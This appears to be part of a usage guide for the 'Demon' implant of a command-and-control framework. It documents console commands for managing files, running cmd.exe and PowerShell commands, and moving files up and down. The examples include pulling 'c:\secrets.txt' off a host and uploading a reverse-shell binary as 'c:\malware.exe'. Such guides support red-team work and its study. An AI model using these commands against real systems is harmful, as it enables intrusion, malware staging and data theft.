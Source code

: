 `Demon » cp C:\path\to\remote\file.txt C:\path\to\remote\copied_file.txt`

- Move file

`Demon » mv C:\path\to\remote\file.txt C:\path\to\remote\moved_file.txt`

`Demon » cat C:\path\to\remote\file.txt`

- Delete file

`Demon » remove C:\path\to\remote\file.txt`

## 2.6 - Execute Shell Commands

### 2.6.1 - Help Menu

```
Demon » help shell

 - Command       :  shell
 - Description   :  executes cmd.exe commands and gets the output
 - Behavior      :  Process Creation
 - Usage         :  shell [commands]
 - Example       :  shell dir c:\windows\system32

Demon » help powershell

 - Command       :  powershell
 - Description   :  executes powershell.exe commands and gets the output
 - Usage         :  powershell [commands]
 - Example       :  powershell dir c:\windows\system32
```

### 2.6.2 - Usage

* Execute any `shell` command that the demon implant spawns a child process `cmd.exe`

`Demon » shell <command> [args]`

* Spawns a child process of `powershell.exe`

`Demon » powershell <cmdlet> [args]`

## 2.7 - Upload and Download Files

```
Demon » help download

 - Command       :  download
 - Description   :  downloads a specified file
 - Behavior      :  API Only
 - Usage         :  download [/path/to/file.txt]
 - Example       :  download c:\secrets.txt

Demon » help upload

 - Command       :  upload
 - Description   :  uploads a specified file
 - Behavior      :  API Only
 - Usage         :  upload [/local/file/to/upload.exe] [/remote/path/to/upload.exe]
 - Example       :  upload /tmp/reverse_shell.exe c:\malware.exe

Demon » help transfer

 - Command       :  transfer
 - Description   :  download transfer module
 - Behavior      :  API Only
```